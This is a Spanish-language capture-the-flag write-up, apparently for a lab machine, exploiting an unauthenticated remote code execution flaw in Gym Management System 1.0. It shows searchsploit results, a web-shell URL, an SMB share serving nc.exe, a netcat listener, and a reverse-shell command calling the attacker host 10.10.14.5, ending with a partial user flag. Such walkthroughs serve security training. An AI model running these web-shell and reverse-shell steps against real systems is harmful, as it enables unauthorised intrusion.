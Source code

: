 ### Gym Management System (8080)

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fzd7UoGwKGM3Oen0zjEVT%2Fimage.png?alt=media&#x26;token=29f72a66-e515-4438-9116-850f7987e1d9" alt=""><figcaption></figcaption></figure>

## Explotación

Si buscamos exploits sobre este sistema encontraremos un **RCE**:

```bash wrap=false
❯ searchsploit gym management system
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                                                                                       | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                                                                                    | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                                                                              | php/webapps/48941.txt
-> Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                                    | php/webapps/48506.py
GYM MS - GYM Management System - Cross Site Scripting (Stored)                                                                                       | php/webapps/51777.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Resumidamente este script sube una imagen falsa que nos da acceso a ejecución remota de comandos desde la siguiente ruta:

```
view-source:http://10.10.10.198:8080/upload/kamehameha.php?telepathy=[comando]
```

Sabiendo esto lo ideal sería descargar **netcat** para Windows y compartirlo a la máquina víctima de la siguiente manera:

```bash title="Iniciar servidor local SMB"
smbserver.py smbFolder $(pwd) -smb2support
```

```bash title="Nos ponemos a la escucha desde nuestra máquina"
sudo rlwrap nc -lvnp 443
```

```bash title="Usamos NC para enviar una reverse shell"
view-source:http://10.10.10.198:8080/upload/kamehameha.php?telepathy=\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```

```bash title="Conseguimos la flag del usuario"
C:\Users\shaun\Desktop>type user.txt
9a0dffd97e222244...
```
